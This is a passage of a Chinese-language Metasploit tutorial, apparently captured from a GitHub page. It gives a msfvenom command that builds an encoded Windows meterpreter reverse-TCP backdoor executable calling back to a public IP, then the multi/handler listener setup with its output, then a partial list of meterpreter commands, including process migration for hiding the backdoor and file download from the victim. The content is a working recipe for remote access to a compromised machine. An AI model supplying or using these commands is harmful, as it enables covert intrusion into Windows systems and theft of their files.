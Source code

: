 所以最终利用生成语句为：

```bash
msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 5 LHOST=公网ip LPORT=要监听的端口 -f exe > ./test.exe
```

##### msfconsole 的监听配置：

```bash
msf > use exploit/multi/handler
msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(multi/handler) > set LHOST xx.xx.xx.xx
LHOST => xx.xx.xx.xx
msf exploit(multi/handler) > set lport xxxx
lport => xxxx
msf exploit(multi/handler) >
msf exploit(multi/handler) > exploit
[*] Started reverse TCP handler on xx.xx.xx.xx:xxxx

```

根据如上命令，我们开启了监听等待主机上线

##### meterpreter 常用命令（删除部分我没有用过或是作用不大的指令）:
```

meterpreter > help

    命令                       解释
    -------                   -----------
    ?                         帮助菜单
    background                把当前shell回话放到后台
    bg                        同上
    bgkill                    结束一个后台会话
    bglist                    后台会话列表
    bgrun                     以后台线程运行一个meterpreter脚本
    exit                      终结这个meterpreter会话
    get_timeouts              获取当前会话的超时设定
    guid                      获取当前会话的GUID
    irb                       打开一个ruby的交互shell
    load                      加载一个或多个Meterpreter扩展
    migrate                   移动服务到其他进程PID(便于后门的隐藏)
    quit                      退出
    read                      Reads data from a channel
    resource                  Run the commands stored in a file
    run                       运行一个merterpreter脚本或者post模块
    sessions                  -i 切换到其他session
    set_timeouts              设置超时
    use                       与load命令一样


文件操作命令
============================

    Command       Description
    -------       -----------
    cat           读文件
    cd            cd
    checksum      验证文件md5
    cp            copy
    dir           ls
    download      下载文件到本机
    edit          编辑文件
    getlwd        lpwd
```
